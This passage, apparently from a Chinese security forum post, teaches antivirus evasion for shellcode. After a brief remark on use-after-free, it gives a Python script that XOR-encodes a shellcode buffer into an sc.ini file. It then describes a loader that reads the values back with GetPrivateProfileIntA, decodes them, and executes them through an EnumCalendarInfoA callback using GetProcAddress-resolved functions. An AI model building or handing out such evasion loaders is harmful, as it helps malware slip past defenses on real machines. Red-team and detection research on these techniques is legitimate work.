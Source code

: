 通过p2能够操作p1，如果之后p1继续被使用，则可以达到通过p2修改程序功能等目的，这也是UAF(use after free)的含义

### **3.**

![1_code.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7a06778b29dd027271cb66a80e63ce178088edb4.png)  
加密代码如下：

```print("
print("| |__  _   _ _ __   __ _ ___ ___")
print("| '_ \| | | | '_ \ / _` / __/ __|")
print("| |_) | |_| | |_) | (_| \__ \__ \\")
print("|_.__/ \__, | .__/ \__,_|___/___/")
print("       |___/|_|")
shellcode_=b""  #shellcode放在这里
shellcode=[]
for i in shellcode_:
    shellcode.append(str(i^1024))
shellcode=",".join(shellcode).split(",")
file=open("sc.ini","w")
file.write("[key]\n")
n=0
for i in shellcode:
    file.write(f"{n}={i}\n")
    n+=1
file.close()

```

这里就是通过for循环遍历shellcode，然后异或生成加密后的shellcode最后打卡sc.ini文件写入shellcode（这里师傅们能看懂吧？）

![txt.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ea73fda2bdfd6bae86c295452359e3cc64b91401.png)  
脚本执行完后ini配置文件长这样，等号后面的值就是我们把shellcode异或加密后的整数值

上面是简单的加密方式，师傅们可以自己魔改哦，像ctf密码学中的凯撒密码和隐写这类的都可以用到免杀中

接下来写加载器加载shellcode就行了，这里我用的回调函数执行shellcode，api是EnumCalendarInfoA的第一个参数

![en3.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ad93961952878011e0371ee8f18f11c78fc31811.png)

![en4.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f220ce4485661c3a4d4b286e54ed7a0bb2b9e744.png)  
这里调用api我都是利用GetProcAddress这个api获取函数地址，函数指针进行调用的 \*\*（笔者我这里开始是想利用IAT表获取GetProcAddress函数地址，再利用函数指针调用GetProcAddress获取其他函数的地址，但我这里获取GetProcAddress地址调用后程序会报错） ，所以我是用的GetProcAddress函数获取getprocaddress地址（套娃，不过没啥用）

![en.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-25b3be82a864e37ae89bd0bd73f4b17a818f4bc4.png)

![en2.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7706dc0dcd1c15370368e04a852de7cfc68c1c72.png)  
这里把写入shellcode后的ini配置文件和程序放在一起，利用GetCurrentDirectoryA获取当前程序的所在目录，利用strcat函数把目录和sc.ini文件名拼接在一起，就得到了sc.ini的完整路径，如下图所示

![main.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-06214709b92f1f45682f623b029de53a71f44a80.png)  
随后我们只需要循环调用GetPrivateProfileIntA获取值进行解密即可
